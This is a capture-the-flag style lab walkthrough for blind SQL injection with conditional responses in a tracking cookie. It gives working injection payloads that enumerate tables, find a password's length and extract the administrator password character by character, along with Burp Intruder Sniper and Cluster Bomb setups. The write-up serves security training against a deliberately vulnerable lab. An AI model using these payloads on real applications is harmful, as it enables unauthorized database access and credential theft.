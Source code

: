 # Lab: Blind SQL injection with conditional responses
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Blind SQL injection
We don't have the typical possibility to inject statement like before. The websites uses a cookie `TrackingId` to show the "Welcome back" message at the top of the page:
![Welcome back](../images/Blind_SQL_injection_with_conditional_responses.png)

From the description we know that this cookie is vulnerable to SQL injection. To make a use of this, we can inject statements in the value of the cookie, that create a conditional return value. If the value is true, the message will be shown. If it's false, it won't.

For example the following value will cause that the message isn't shown anymore:
```
TrackingId=281bcO9BAGKvZXDq' and '1'='2
```

While the following meets the condition again and the message is shown:
```
TrackingId=281bcO9BAGKvZXDq' and '1'='1
```

The serverside created SQL statement will look like this:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '281bcO9BAGKvZXDq' and '1'='2'
```

## Solution
The goal in this lab is to abuse the noted vulnerability to create a conditional statement and "guess" the administrator password over that way. If our guess is true, the "Welcome back" message is shown. If not, it's not shown.

### Information gathering
From the lab description we know that there is a table called 'Users' with an user called 'Administrator'. But if we don't have this information we can examine the database with the following statements. If the statements are true, the welcome message is shown.

Determine if there is a table called 'Users':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users LIMIT 1)='a
```

Check if there is a user called 'Administrator':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

Guess the password length by increasing the number behind the '>':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
This can be done either by manually changing the number or using Burp Intruder to automate things up. The Intruder can be configured like the following:
| Positions | Payloads | Settings | Results |
| --------- | -------- | -------- | ------- |
| ![Positions](../images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_0.png) | ![Payloads](../images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_1.png) | ![Settings](../images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_2.png) | ![Results](../images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_3.png) |

In the results we see that the response for `LENGTH(password)>20)='a` won't give the welcome message. So our password is 20 characters long.

### Payload (Sniper)
Using the same approach, we can test the password character wise for matching to specific characters. From the description we know that only lowercase and alphanumeric are used. Because Burp CE has no predefined lists for Intruder, you can either create a list with the character sets and imported it or use the _Brute Forcer_ payload type. The statement we will use looks like the following:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```

The corresponding SQL statement will look like this:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'
```

Intruder will iterate the character through the given list. If there is a match, we will check the next char by adjusting the payload:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§
```

The configuration of Intruder looks like the following:
| Positions | Payloads | Results |
| --------- | -------- | ------- |
| ![Positions](../images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_0.png) | ![Payloads](../images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_1.png) | ![Results](../images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_2.png) |

We will find the password of the administrator: `6718hmev95qbvnbglc8o`

Logging in with those credentials solves this lab.

### Payload (Cluster Bomb)
With Burp Intruder we can automate the previous step further. With the attack type _Cluster Bomb_ we can save us the part of adjusting the statement manually.

To do so we set the type to _Cluster Bomb_ and use the following statement:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
```

For the first sector we use the payload type _Numbers_ and for the second the type _Brute Forcer_:
| Positions | Payload Numbers | Payload Brute Forcer | Results |
| --------- | --------------- | -------------------- | ------- |
| ![Positions](../images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_0.png) | ![Payload Numbers](../images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_1.png) | ![Payload Brute Forcer](../images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_2.png) | ![Results](../images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_3.png) |

This setup will test for every position of the password every character from the set. Sorting or filtering the results will show us the correct character for each position.

_Keep in mind that with Burp CE the Cluster Bomb attack will take a lot more time than it would in the Premium Edition._
